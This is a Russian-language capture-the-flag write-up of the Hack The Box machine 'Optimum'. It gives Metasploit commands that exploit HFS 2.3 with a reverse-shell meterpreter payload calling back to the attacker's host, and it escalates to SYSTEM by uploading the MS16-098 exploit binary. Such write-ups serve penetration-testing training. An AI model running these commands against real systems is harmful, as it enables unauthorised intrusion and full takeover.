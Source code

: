 # Optimum

**Плошадка:** https://hackthebox.com
**Уровень:** Medium
**Задача:** Найти файлы **user.txt** и **root.txt** на машине жертвы 

Сегодня мы будем решать задачу «Optimum», разработанную на базе платформы Hack the Box. Эта лабораторная работа подпадает под категорию изъятых из использования с целью оттачивания навыков пентестера в онлайне. Решение этой задачи не очень сложное, если вы владеете соответствующими знаниями. Сразу же приступаем к делу.

## Разведка

Как обычно, начинаем со сканирования портов.

```bash
nmap -A 10.10.10.8
```

![[Pasted image 20230705090740.png]]

По результатам сканирования выяснилось, что открыт 80-й порт, на котором крутится файловый сервер HFS 2.3. 

## Поиск эксплойта

В процессе поиска нашлась ссылка на нужный эксплоит для Metasploit.

![[Pasted image 20230705090818.png]]

Затем запускаем в терминале команду msfconsole, загружаем Metasploit Framework для использования вышеуказанного эксплоита и вводим следующие команды:

## Эксплуатация 

```metasploit
use exploit/windows/http/rejetto_hfs_exec
msf exploit(windows/http/rejetto_hfs_exec) >set payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/http/rejetto_hfs_exec) >set rhost 10.10.10.8
msf exploit(windows/http/rejetto_hfs_exec) >set lhost 10.10.14.6
msf exploit(windows/http/rejetto_hfs_exec) >set svrhost 10.10.14.6
msf exploit(windows/http/rejetto_hfs_exec) >exploit
```

Если все сработало правильно, появится сессия meterpreter session 1, как показано на рисунке ниже. Далее
после запуска команды sysinfo можно получить информацию о системе жертвы.

![[Pasted image 20230705091322.png]]

Теперь попробуем поискать файлы user.txt и root.txt, которые скрыты в одной из директорий. 

Внутри директории `c:\Document and Setting \kostas\Desktop`  я нашел файл user.txt. Для просмотра содержимого этого файла использовалась команда cat.

```bash
cat user.txt.txt
```

Первая часть задачи решена.

![[Pasted image 20230705091420.png]]

![[Pasted image 20230705091427.png]]

## Повышение привилегий

Вторая часть задачи, связанная с поиском файла root.txt, отняла у меня намного больше времени. Все эксплоиты, рекомендованные recon/local_exploit_suggester, у меня не сработали. Затем я начал искать эксплоиты для Windows Server и нашел «MS16-098exploit 41020». Я просто загрузил исполняемый файл и воспользовался ручным расширением привилегий.

![[Pasted image 20230705091850.png]]

После загрузки исполняемого файла я переправил эксплоит на целевую машину через meterpreter-сессию при помощи следующих команд:

```
Meterpreter> upload /root/Desktop/41020.exe .
Meterpreter> shell
```

После запуска команды whoami я убедился, что теперь у меня есть системные права `(nt authority\system)`.

![[Pasted image 20230705091956.png]]

Внутри директории c:\Document and Setting \Administrator\Desktop я нашел файл root.txt. Для просмотра содержимого этого файла я воспользовался командой type. 

```
type root.txt
```

Таким образом, мы решили вторую часть задачи.

---
 
